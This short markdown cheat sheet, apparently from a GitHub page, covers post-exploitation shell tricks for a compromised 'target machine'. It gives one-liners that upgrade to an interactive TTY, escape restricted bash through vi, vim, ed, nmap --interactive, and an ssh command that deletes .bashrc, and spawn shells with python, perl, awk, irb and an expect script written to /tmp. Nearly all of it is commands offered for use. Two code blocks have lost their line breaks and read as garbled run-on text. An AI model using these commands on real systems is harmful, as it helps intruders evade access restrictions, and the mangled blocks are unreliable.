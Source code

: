 # Spawn a shell

**Again this is thanks to @S1REN and her code. Buy a coffee or a beer for Cat Mama**

`python -c 'import pty; pty.spawn("/bin/bash")'export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmpexport TERM=xterm-256coloralias ll='ls -lsaht --color=auto* Grab a valid tty.* What OS are you on? Grab access to those binaries fast by exporting each environment variable. Debian/CentOS/FreeBSD* Want a color terminal to easily tell apart file permissions? Directories? Files?* Fastest way to list out the files in a directory, show size, show permissions, human readable.`

**Is this rbash** (*Restricted Bash*)**?** PT1
$ vi
:set shell=/bin/sh
:shell

$ vim
:set shell=/bin/sh
:shell

**Is this rbash** (*Restricted Bash*)**?** PT2
(*This requires ssh user-level access*)
ssh user@127.0.0.1 "/bin/sh"
rm $HOME/.bashrc
exit
ssh user@127.0.0.1
(*Bash Shell*)

**Is python present on the target machine?**
python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/sh")'

**Is perl present on the target machine?**
perl -e 'exec "/bin/bash";'
perl -e 'exec "/bin/sh";'

**Is AWK present on the target machine?**
awk 'BEGIN {system("/bin/bash -i")}'
awk 'BEGIN {system("/bin/sh -i")}'

**Is ed present on the target machines?**
ed
!sh

**IRB Present on the target machine?**
exec "/bin/sh"

**Is Nmap present on the target machine?**
nmap --interactive
nmap> !sh

**Expect:**
`expect -v  expect version 5.45.4  $ cat > /tmp/shell.sh <<EOF#!/usr/bin/expectspawn bashinteractEOF$ chmod u+x /tmp/shell.sh$ /tmp/shell.sh`
